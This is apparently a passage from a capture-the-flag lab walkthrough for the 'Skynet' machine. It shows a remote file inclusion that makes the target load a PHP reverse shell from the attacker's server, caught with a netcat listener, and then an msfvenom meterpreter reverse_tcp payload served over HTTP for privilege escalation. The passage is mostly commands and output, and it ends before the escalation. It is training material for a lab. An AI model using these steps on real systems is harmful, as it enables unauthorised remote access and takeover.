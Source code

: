 Start a listener.

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Trigger the file inclusion visiting `http://10.10.114.155/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.237.245:8000/php-reverse-shell.php`.  
Adjust the IPs to fit your case.

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.114.155 33912 received!
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:13:20 up  1:22,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

You have now received a reverse shell from the target.  
The current access is sufficient to obtain the user flag.

```bash
$ cd /home/milesdyson
$ cat user.txt
[REDACTED]
```

## Privilege escalation

You will now escalate your privileges to root access, but before that you will switch to a more stable and feature-rich shell, the `meterpreter`.

Craft a meterpreter payload with `msfvenom`.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.237.245 LPORT=4444 -f elf > rev_shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

Start a http server in the same folder of the payload, to serve it to the target.

```bash
python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
